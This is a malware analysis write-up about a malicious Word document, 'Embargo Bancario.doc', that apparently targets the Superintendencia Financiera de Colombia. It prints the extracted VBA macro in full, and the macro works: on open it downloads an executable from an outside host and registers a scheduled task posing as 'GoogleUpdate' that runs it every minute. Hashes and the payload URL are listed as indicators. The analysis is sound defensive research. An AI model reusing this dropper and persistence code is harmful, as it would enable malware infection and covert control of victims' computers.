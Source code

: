 sha256 : **380dc1e34c39c41334f69250440554427182c747134bdea1739c31d4b8f1b288**

ITW Filename : **Embargo Bancario.doc**

The document seems to be targeting **Superintendencia Financiera de Colombia**

![Document](../images/380dc1e34c39c41334f69250440554427182c747134bdea1739c31d4b8f1b288_0001.png)

We can see that there is .mso file with ActiveMIME. Probably containing the VBA that it's downloading and executing the payload.

![ActiveMIME](../images/380dc1e34c39c41334f69250440554427182c747134bdea1739c31d4b8f1b288_0002.png)

Normally i would use Cerbero Suite Advanced to extract it and you will get back something like this shown below.

![VBA](../images/380dc1e34c39c41334f69250440554427182c747134bdea1739c31d4b8f1b288_0003.png)

However, this time round, i made this [script](../../Analysis%20Scripts/pyExtract_ActiveMIME_from_MHTML.py)

We should be able to see the VBA from the extracted ActiveMIME
```vb
' module: ThisDocument

Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Option Explicit

Const TASK_ACTION_EXEC = 0
Const TASK_CREATE_OR_UPDATE = &H6&
Const TASK_LOGON_INTERACTIVE_TOKEN = 3
Const TASK_RUNLEVEL_LUA = 0
Const TASK_RUNLEVEL_HIGHEST = 1
Const TASK_TRIGGER_DAILY = 2
Const THREAD_PRIORITY_BELOW_NORMAL As Long = 8

Public Sub fcL4qOb4()
On Error Resume Next
Dim Issqwe6 As String
Dim m43nrukO6XFjm As Object
Dim NoERgwg0 As Date
NoERgwg0 = Now()
Issqwe6 = Replace$(Format$(NoERgwg0, "yyyymmdd-HhNn"), ".", "-")
With CreateObject("Schedule.Service")
.Connect
Set m43nrukO6XFjm = .NewTask(0)
With m43nrukO6XFjm
With .RegistrationInfo
.Description = "Esta tarea detiene el Agente de telemetría de Google, que examina y carga la información sobre el uso y los errores de las soluciones de Google cuando un usuario inicia sesión en el sistema."
.Author = "Google Inc"
End With
With .Principal
.ID = "P" & Issqwe6
.RunLevel = TASK_RUNLEVEL_LUA
End With
With .Settings
.Enabled = True
.StartWhenAvailable = True
.WakeToRun = False
.Priority = THREAD_PRIORITY_BELOW_NORMAL
.DisallowStartIfOnBatteries = False
.RunOnlyIfIdle = False
.StopIfGoingOnBatteries = False
.AllowHardTerminate = True
.Hidden = False
.ExecutionTimeLimit = "PT0S"
.IdleSettings.StopOnIdleEnd = False
End With
With .Triggers.Create(TASK_TRIGGER_DAILY)
.ID = "DAILY"
.StartBoundary = "2015-05-02T06:00:00"
.Enabled = True
.Repetition.Interval = "PT1M"
End With
With .Actions.Create(TASK_ACTION_EXEC)
.Path = Environ("AppData") & "\p.exe" '  AQUI
End With
End With
With .GetFolder("\")
On Error Resume Next
.RegisterTaskDefinition "GoogleUpdate", m43nrukO6XFjm, TASK_CREATE_OR_UPDATE, , , TASK_LOGON_INTERACTIVE_TOKEN
If Err Then
Else
End If
End With
End With
End Sub
Public Sub AukPZZYdNGN()
If "YbSrGzjRToQUjtOcPBd" = "xaHZKOpOaTmjGcA" Then End
End Sub
Public Sub Document_Open()
On Error Resume Next
If 682507832 = 682507832 + 1 Then End
Dim KfsHoGryV As Byte
GoTo WGR
WGR:
Call Main
fcL4qOb4
End Sub
Public Sub uIeRbztQZF()
Dim IRRQUszGlx As Integer
IRRQUszGlx = "2582"
End Sub



' module: Módulo1

Attribute VB_Name = "Módulo1"
Sub Main()
On Error Resume Next
Call ifO7tRe8("http://medicosempresa.com/image/win.jpg", Environ("AppData") & "\p.exe")
End Sub
Public Function uATcQxssrwhovLmlBr()
If "SQynHypCMvvjj" = "SfHbGewIwtnFDaJTa" Then End
End Function
Public Function iyzUQgDlOeKQksiNIIHM()
If "SQynHypCMvvjj" = "SfHbGewIwtnFDaJTa" Then End
Dim CoEHKCbEjT As Currency
CoEHKCbEjT = "1403"
End Function
Function ifO7tRe8(SAS As String, SDE As String) As Long
On Error GoTo 1:
Dim WIIGMumv5k                     As Object
Dim qHKA4mdUzC0               As Object
If 131666564 = 131666564 + 1 Then End
Dim Wck As Double
GoTo qrSbnQ
qrSbnQ:
Set WIIGMumv5k = CreateObject("Microsoft.XMLHTTP")
Set qHKA4mdUzC0 = CreateObject("Adodb.Stream")
If 240525565 = 240525565 + 1 Then End
Dim HJdG As Currency
GoTo OmFeFQKcLi
OmFeFQKcLi:
Call WIIGMumv5k.Open("GET", SAS, 0)
Call WIIGMumv5k.Send
qHKA4mdUzC0.Type = 1
Call qHKA4mdUzC0.Open
Call qHKA4mdUzC0.Write(WIIGMumv5k.responseBody)
Call qHKA4mdUzC0.SaveToFile(SDE, 2)
Call qHKA4mdUzC0.Close
ifO7tRe8 = 1
Exit Function
1:
End Function
Public Sub uFonbMoKQlS()
GoTo omgyvRoMROadsNO
omgyvRoMROadsNO:
End Sub
Public Sub idGVpIcQLrABzEpipThg()
GoTo omgyvRoMROadsNO
omgyvRoMROadsNO:
If "TjbLtvPsxLVqDr" = "EbaBjAnrQr" Then End
End Sub

```
We can see that it's downloading payload from **hxxp://medicosempresa[.]com/image/win.jpg**

sha256 of **hxxp://medicosempresa[.]com/image/win.jpg** is **436611717cf191ce60d159643e082d83dc6d3dae95965e30aa248385c8e3decb**
